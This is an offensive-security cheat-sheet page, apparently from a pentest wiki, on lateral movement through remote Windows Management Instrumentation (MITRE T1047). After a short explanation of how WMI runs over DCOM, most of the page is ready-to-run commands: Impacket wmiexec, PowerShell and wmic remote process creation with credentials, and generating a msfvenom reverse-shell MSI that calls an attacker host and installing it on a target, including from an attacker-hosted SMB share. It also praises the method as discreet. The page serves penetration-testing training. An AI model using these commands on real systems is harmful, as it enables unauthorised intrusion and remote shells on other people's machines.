 ```yaml
---
description: MITRE ATT&CK™  Windows Management Instrumentation - Technique T1047
---
```


# Remote WMI

## Theory

Windows Management Instrumentation (WMI) provides a standardized way for querying and managing various elements of a Windows operating system. It allow administrators to perform standard management tasks that attackers can abuse to perform lateral movements.

When using WMI remotely, the client application establishes a connection to the WMI service on the remote Windows machine. This connection is made using **DCOM (Distributed Component Object Model)** as the underlying transport protocol. The client initiates an RPC (Remote Procedure Call) connection to communicate with the WMI DCOM infrastructure on the remote system.

Once the DCOM connection is established, the [MS-WMI](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-wmi/c0088a94-1107-48a5-8d4d-cd16d34de5ef) protocols (Microsoft WMI Extensions to DCOM) comes into play. **MS-WMI protocols provides additional functionality that is specific to WMI operations** over the DCOM protocol. These extensions enhance DCOM to handle WMI-specific tasks such as executing WMI queries, invoking methods, and retrieving system information.

{% hint style="success" %}
This method is much more discreet than the one used by psexec, smbexec and the other main tools in the impacket suite.
{% endhint %}

## Practice

### Remote Process Creation Using WMI

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/fortra/impacket)'s [wmiexec](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) script give you a semi-interactive shell by leveraging DCOM and the MS-WMI protocol.

```bash
#Execute commands over MS-WMI
wmiexec.py <domain>/<username>:<password>@<target>
```
{% endtab %}

{% tab title="Windows - Powershell" %}
We can spawn a process on a remote target using wmi and powershell cmdlets

#### Powershell v1+ (2006)

```powershell
#Create PSCredentials and execute commands on remote target
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force));
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-WmiMethod -ComputerName "TARGET" -Credential $credential -Class Win32_Process -Name Create -ArgumentList $Command

#One-liner style
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force)); $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere"; Invoke-WmiMethod -ComputerName "TARGET" -Credential $credential -Class Win32_Process -Name Create -ArgumentList $Command
```

#### Powershell v3+ (2012)

```powershell
#Create CimSession and execute commands on remote target
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force))))
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }

#One-liner style
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force)))) -ErrorAction Stop; $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere"; Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
We can spawn a process on a remote target using wmic.exe

```bash
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```
{% endtab %}
{% endtabs %}

### Remote MSI Installation Using WMI

{% tabs %}
{% tab title="Windows - Powershell" %}
We can install a MSI package on a remote target using wmi and powershell cmdlets. Let's create a malicious MSI using msfvenom:

```bash
#Generate an evil package
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f msi > evil64.msi
```

#### Powershell v1+ (2006)

```powershell
#Create PSCredentials and install MSI on remote target
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force));
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\Windows\evil64.msi") -ComputerName "TARGET" -Credential $credential

#One-liner style
$credential = New-Object System.Management.Automation.PSCredential("USERNAME", (ConvertTo-SecureString "PASSWORD" -AsPlainText -Force)); Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\Windows\evil64.msi") -ComputerName "TARGET" -Credential $credential
```

#### Powershell v3+ (2012)

```powershell
#Create CimSession and install MSI on remote target
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force))))
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\evil64.msi"; Options = ""; AllUsers = $false}

#One-liner style
$Session = New-CimSession -ComputerName "TARGET" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("USERNAME", (ConvertTo-SecureString -String "PASSW0RD" -asplaintext -force)))) -ErrorAction Stop; Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\evil64.msi"; Options = ""; AllUsers = $false}
```
{% endtab %}

{% tab title="Windows - wmic.exe" %}
We can install a MSI package on a remote target using wmic.exe. Let's create a malicious MSI using msfvenom:

```bash
#Generate an evil package & host it on SMB server
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f msi > evil64.msi
```

Execute following commands

```bash
#Frome a remote share (may not works)
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=\\ATTACKING_IP\Share\evil64.msi

#Upload 
net use \\TARGET\c$ PASSWORD /user:DOMAIN\USER; copy C:\experiments\evil64.msi \\TARGET\c$\PerfLogs\setup.msi ; wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endtab %}
{% endtabs %}

## Resources



{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}

{% embed url="https://www.ired.team/offensive-security/lateral-movement/wmi-via-newscheduledtask" %}

{% embed url="https://www.ired.team/offensive-security/lateral-movement/wmi-+-msi-lateral-movement" %}
